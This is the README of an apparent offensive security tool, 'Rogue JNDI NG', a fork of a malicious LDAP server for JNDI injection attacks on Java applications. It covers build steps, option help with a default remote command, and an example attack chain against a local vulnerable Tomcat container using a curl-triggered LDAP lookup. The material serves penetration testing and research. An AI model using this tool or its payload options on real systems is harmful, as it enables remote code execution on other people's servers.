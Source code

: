 # ROGUE JNDI NG
<img src="resources/logo.webp" alt="A bug sitting on top of a Stormtrooper helmet" height="640" width="640" style="border-radius: 14%; overflow: hidden;">


A modern fork of [Rogue JNDI](https://github.com/artsploit/rogue-jndi), which is "a malicious LDAP server for JNDI injection attacks".

## Description
Rogue JNDI is a great tool in the realm of JNDI exploitation. Our fork adds many features in order to keep it relevant for modern Java environments.

You can read about the full extent of our improvements in our [blog post](https://mogwailabs.de/en/blog/2024/12/jndi-mind-tricks/), but here's a summary:
+ Support for Tomcat version >=10
+ Support for Java version >= 15
+ Users can provide whole script files instead of single OS commands
+ Endpoint for serving generic deserialization payloads
+ New endpoint for exploiting H2 
+ New endpoint for exploiting targets with C3P0 
+ New endpoint for exploiting HSQLDB
+ The usage of [Testcontainers](https://github.com/testcontainers/testcontainers-java) for integration tests (also useful for manual testing, e.g. custom scripting payloads)

> [!NOTE]
> For a general overview, please refer to the original [README](https://github.com/artsploit/rogue-jndi/blob/master/README.md)

## Building
The project uses Maven and can be build with something like:
```shell
mvn clean package
```
This creates a `/target` folder where the `RogueJNDI-X.X.X.jar` file resides. 

## Usage
After building, you can run the following command to see all the options:
```
$ java -jar target/RogueJndi-1.1.jar -h
        __________ ________    ________ ____ ______________      ____._______  ________  .___   _______    ________ 
        \______   \\_____  \  /  _____/|    |   \_   _____/     |    |\      \ \______ \ |   |  \      \  /  _____/ 
         |       _/ /   |   \/   \  ___|    |   /|    __)_      |    |/   |   \ |    |  \|   |  /   |   \/   \  ___ 
         |    |   \/    |    \    \_\  \    |  / |        \ /\__|    /    |    \|    `   \   | /    |    \    \_\  \
         |____|_  /\_______  /\______  /______/ /_______  / \________\____|__  /_______  /___| \____|__  /\______  /
                \/         \/        \/                 \/                   \/        \/              \/        \/


Usage: java -jar target/RogueJndi-1.0.jar [options]
  Options:
    -c, --command          Command to execute on the target server (default: 
                           touch /usr/local/tomcat/temp/pwn.txt)
    -n, --hostname         Local HTTP server hostname (required for remote 
                           classloading and websphere payloads) (default: 
                           127.0.0.1) 
    -l, --ldapPort         Ldap bind port (default: 1389)
    -p, --httpPort         Http bind port (default: 8000)
    --wsdl                 [websphere1 payload option] WSDL file with XXE 
                           payload (default: /list.wsdl)
    --localjar             [websphere2 payload option] Local jar file to load 
                           (this file should be located on the remote server) 
                           (default: 
                           ../../../../../tmp/jar_cache7808167489549525095.tmp) 
    --h2                   [H2 database init script file (default: /h2)
    --js-payload-path      [Tomcat Nashorn payload option] Path to a .js file 
                           containing the payload served by the Tomcat 
                           controllers; overwrites the -c option (default: 
                           <empty string>)
    --jshell-payload-path  [Tomcat JShell payload option] Path to a .java file 
                           containing the payload served by the Tomcat 
                           controllers; overwrites the -c option (default: 
                           <empty string>)
    --groovy-payload-path  [Groovy payload option] Path to a .groovy file 
                           containing the payload served by the Groovy 
                           controller, overwrites the -c option (default: 
                           <empty string>)
    --generic-payload-path [Generic controller option] Path to a file 
                           containing a serialized object served by the 
                           Generic controller, overwrites the -c option 
                           (default: <empty string>)
    --jdbc-url             [HSQLDB controller option] JDBC URL pointing to an 
                           HSQL database (default: <empty string>)
    -h, --help             Show this help
```

## Example usage with custom JShell script
First, start the test container:
```shell
docker run -it -p 8080:8080 ghcr.io/mogwailabs/jndi-outcast/tomcat-10-jshell:latest
```

After cloning and building the project, start the server:
```shell
java -jar target/RogueJndi-1.1.jar --jshell-payload-path "/path/to/cloned/repo/rogue-jndi-ng/src/main/resources/payload.java"
```

Now you only need to make a request to the vulnerable servlet inside the container:

```shell
curl "http://localhost:8080/tomcat-10-jshell-1.0-SNAPSHOT/lookup?resource=ldap://host.docker.internal:1389/o=tomcat10-jshell"
```

## Demo
This demo uses our example JShell payload (`/src/main/resources/payload.java`):

https://github.com/user-attachments/assets/ca45c2e8-7aec-4530-bb47-db45306d6938


## Resources and Acknowledgements
+ Michael Stepankin for creating the original Rogue JNDI
+ His article about JNDI exploitation:
  https://www.veracode.com/blog/research/exploiting-jndi-injections-java
+ BlackHat talk of Alvaro Muñoz and Oleksandr Mirosh:
  https://www.youtube.com/watch?v=Y8a5nB-vy78
+ Their BlackHat paper:
  https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf
+ Article that includes a rough timeline of JDNI vulnerabilities by Moritz Bechler:
  https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection
+ Our previous article about Java 17 deserialization:
  https://mogwailabs.de/en/blog/2023/04/look-mama-no-templatesimpl
